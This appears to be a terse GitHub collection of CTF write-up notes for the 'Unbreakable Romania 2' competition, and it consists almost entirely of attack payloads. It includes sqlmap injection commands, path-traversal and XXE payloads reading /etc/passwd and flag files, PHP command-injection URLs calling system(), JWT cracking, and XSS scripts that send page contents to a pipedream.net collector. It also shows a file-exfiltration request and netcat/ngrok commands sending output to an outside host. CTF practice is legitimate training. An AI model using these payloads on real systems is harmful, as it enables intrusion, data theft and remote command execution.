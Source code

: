 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

sqlmap -u http://35.198.183.125:30321/user?id=1;
sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns


### File Crawler

http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd
http://34.141.25.94:32191/local?image_name=..////tmp//flag


### Substitute
http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")


### manual-review

<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>


### syntax check

burpsuite

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>

<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>

### Under Construction
https://github.com/ticarpi/jwt_tool

python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable

<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>

atob('')

### alfa-cookie

cmd = ('ls -lah | nc 2.tcp.ngrok.io 17855')

https://blog.kuhi.to/unbreakable-romania-2-writeup

